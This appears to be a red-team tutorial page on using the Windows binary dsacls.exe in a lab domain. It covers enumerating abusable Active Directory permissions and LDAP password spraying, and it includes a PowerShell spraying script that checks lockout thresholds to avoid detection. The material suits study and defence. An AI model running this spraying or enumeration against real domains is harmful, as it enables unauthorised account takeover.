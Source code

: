 ```yaml
---
description: 'Enumeration, living off the land'
---
```


# Enumerating AD Object Permissions with dsacls

It is possible to use a native windows binary \(in addition to powershell cmdlet `Get-Acl`\) to enumerate Active Directory object security persmissions. The binary of interest is `dsacls.exe`.

Dsacls allows us to display or modify permissions \(ACLS\) of an Active Directory Domain Services \(AD DS\).

## Execution

Let's check if user `spot` has any special permissions against user's `spotless` AD object:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Nothing useful:

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-46-47.png)

Let's give user spot `Reset Password` and `Change Password` permissions on `spotless` AD object:

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-46-04.png)

...and try the command again:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "spot"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-44-21.png)

### Full Control

All well known \(and abusable\) AD object permissions should be sought here. One of them is `FULL CONTROL`:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=spotless,cn=users,dc=offense,dc=local" | select-string "full control"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-54-36.png)

### Add/Remove self as member

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" | select-string "spotless"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-19-22-57-50.png)

### WriteProperty/ChangeOwnerShip

![](../../.gitbook/assets/screenshot-from-2019-03-19-23-00-04.png)

Enumerating AD object permissions this way does not come in a nice format that can be piped between powershell cmd-lets, but it's still something to keep in mind if you do not the ability to use tools like powerview or ActiveDirectory powershell cmdlets or if you are trying to `LOL`.

For more good privileges to be abused:

{% page-ref page="privileged-accounts-and-token-privileges.md" %}

{% page-ref page="abusing-active-directory-acls-aces.md" %}

## Password Spraying Anyone?

As a side note, the `dsacls` binary could be used to do LDAP password spraying as it allows us to bind to an LDAP session with a specified username and password:

{% code-tabs %}
{% code-tabs-item title="incorrect logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:1234567
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Logon Failure](../../.gitbook/assets/screenshot-from-2019-03-19-23-09-12.png)

{% code-tabs %}
{% code-tabs-item title="correct logon" %}
```csharp
dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:spotless@offense.local /passwd:123456
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Logon Successful](../../.gitbook/assets/screenshot-from-2019-03-19-23-09-59.png)

### Dirty POC idea for Password Spraying:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
$domain = ((cmd /c set u)[-3] -split "=")[-1]
$pdc = ((nltest.exe /dcname:$domain) -split "\\\\")[1]
$lockoutBadPwdCount = ((net accounts /domain)[7] -split ":" -replace " ","")[1]
$password = "123456"

# (Get-Content users.txt)
"krbtgt","spotless" | % {
    $badPwdCount = Get-ADObject -SearchBase "cn=$_,cn=users,dc=$domain,dc=local" -Filter * -Properties badpwdcount -Server $pdc | Select-Object -ExpandProperty badpwdcount
    if ($badPwdCount -lt $lockoutBadPwdCount - 3) {
        $isInvalid = dsacls.exe "cn=domain admins,cn=users,dc=offense,dc=local" /user:$_@offense.local /passwd:$password | select-string -pattern "Invalid Credentials"
        if ($isInvalid -match "Invalid") {
            Write-Host "[-] Invalid Credentials for $_ : $password" -foreground red
        } else {
            Write-Host "[+] Working Credentials for $_ : $password" -foreground green
        }        
    }
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-20-00-10-10.png)

## References

{% embed url="https://support.microsoft.com/en-gb/help/281146/how-to-use-dsacls-exe-in-windows-server-2003-and-windows-2000" %}



